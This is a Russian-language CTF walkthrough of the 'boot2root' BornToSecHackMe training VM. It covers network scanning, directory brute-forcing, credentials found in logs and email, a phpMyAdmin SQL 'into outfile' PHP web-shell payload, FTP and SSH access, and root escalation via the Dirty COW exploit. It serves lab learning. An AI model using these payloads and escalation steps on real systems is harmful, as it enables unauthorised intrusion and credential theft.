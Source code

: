 ## Поиск IP адреса нашей виртуальной машины на пк.

``
ifconfig - для поиска нужного IP адреса на пк. 
``

![
vmnet8: flags=8863<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 1500
	ether 00:50:56:c0:00:08
	inet 172.16.101.1 netmask 0xffffff00 broadcast 172.16.101.255
](/img1.png)

## Прогонка портов через nmap для получения сведений о нужном нам адресе.

``
nmap 172.16.101.1-255
``

![
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 172.16.101.128
Host is up (0.0012s latency).
Not shown: 994 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps

Nmap done: 255 IP addresses (2 hosts up) scanned in 27.37 seconds
](/img2.png)
``172.16.101.128 нужный нам IP`` 

## Проверка всех ссылок по адресу.
``git clone https://github.com/v0re/dirb.git``
### Установка dirb
```
cd dirb
./confgiure
make
```
``./dirb https://172.16.101.128/ wordlists/common.txt``
## Проверка ссылок на форуме.
После того как зашли на форум, находим ответвление 'Probleme login ?'.
Пройдясь по логам находим две строки:

### Первый ввод предположительно были перепутаны строки для логина и пароля.
![
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
](/img3.png)

### Во втором ввод логина был правильный.
![
Oct 5 09:21:01 BornToSecHackMe CRON[9111]: pam_unix(cron:session): session closed for user lmezard 
](/img4.png)

## Попытка войти на почту с полученным логином и паролем.
Переходим по ссылке ``https://172.16.101.128/webmail/src/login.php``
При воде пароля ``lmezard`` и пароля ``!q\]Ej?*5K5cy*AJ`` не срабатывает.
Делаем поиск ника ``lmezard`` в гугле :
![
Google info about lmezard. Laurie Mezard
](/img5.png)
Нам выдало полное имя Laurie Mezard. Пробуем разные варианты для логина.
Нужный нам вариант ``laurie@borntosec.net``.
Входим на мейл ``login: laurie@borntosec.net`` и ``password: !q\]Ej?*5K5cy*AJ``
Полазив по почте находим письмо:
![
Hey Laurie,
You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$
Best regards.
](/img6.png)
Находим пароль и логин для базы данных ``login: root`` и ``password: Fg-'kKXBj87E:aJ$``
## Попытка входа в phpmyadmin.
Переходим по ссылке ``https://172.16.101.128/phpmyadmin/``
С логином и паролем входим в бд.
После поиском по сети находим експлойт для дб.
``select "<?php $output = shell_exec('cat /home/LOOKATME/password'); echo $output ?>" into outfile "/var/www/forum/templates_c/pokemon.php"``
Переходим на sqltab в том же окне phpmyadmin в который мы залогинились.
Выполняем скрипт.
Скриптом создали новый темплейт по ссылке ``https://172.16.101.128/forum/templates_c/pokemon.php`` где находим ``lmezard:G!@M6f4Eatau{sF"``.

## Попытка входа по ftp.
Теперь пробуем подключиться по ftp.
``ftp 172.16.101.128``
``login: lmezard``
``password: G!@M6f4Eatau{sF"``
Вход успешен, смотрим что там находится:
![
README.md
fun
](/img7.png)
Теперь скидываем файл себе ``get fun ~/boot2root/fun``
В файле куча разной информации, если посмотреть тип файла ``file fun`` узнаем что это архив.
Разархивируем архив ``tar xvf fun``
Получаем целую папку с разными файлами. При просмотре каждого файла пузнаем что
там есть строка с номерным знаком и кусок сишного кода. 
Используем небольшой самописный скрипт который соберет все из файлов, отсортирует и потом создаст новый файл main.c .
``python unpack.py``
``gcc main.c``
``./a.out``
 После запуска получаем :
 ![
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit
](/img8.png)
Шифруем его в SHA-256 и получаем :
``330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4``

## Попытка входа по ssh.
``ssh laurie@172.16.101.128``
``login: laurie``
``password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4``
Мы вошли по SSH на сервер.
Теперь нужно узнать что это за сервер что бы правильно нагуглить експлойт для рута.
``uname -r`` -> 3.2.0-91-generic-pae
``cat /etc/*-release`` -> DISTRIB_DESCRIPTION="Ubuntu 12.04.5 LTS"
С полученными данными делаем поиск в гугле и находим вот эту [ссылку](https://www.exploit-db.com/exploits/40839).
Создаем этот скрипт на сервере, мы сделали это через vim.
``touch pokemon.c``
``vim pokemon.c`` -> ``CMD + C`` -> ``CMD + V``
``gcc -pthread pokemon.c -o dirty -lcrypt && ./dirty``
Теперь задаем какой то пароль.
``si firefart``
# Вы под рутом.



